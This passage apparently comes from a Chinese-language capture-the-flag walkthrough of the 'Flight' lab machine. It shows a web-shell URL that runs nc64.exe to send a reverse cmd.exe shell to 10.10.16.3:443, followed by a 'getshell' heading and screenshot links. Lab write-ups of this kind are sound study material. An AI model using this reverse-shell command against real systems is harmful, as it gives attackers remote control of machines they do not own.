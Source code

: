 再上传nc64.exe

命令执行反弹shell

```
http://school.flight.htb/styles/poc.php?cmd=nc64.exe%20-e%20cmd.exe%2010.10.16.3%20443
```

# getshell

## flight\svc_apache

![image-20250429150833850](./Flight-Windows_active/image-20250429150833850.png)

![image-20250429154000034](./Flight-Windows_active/image-20250429154000034.png)

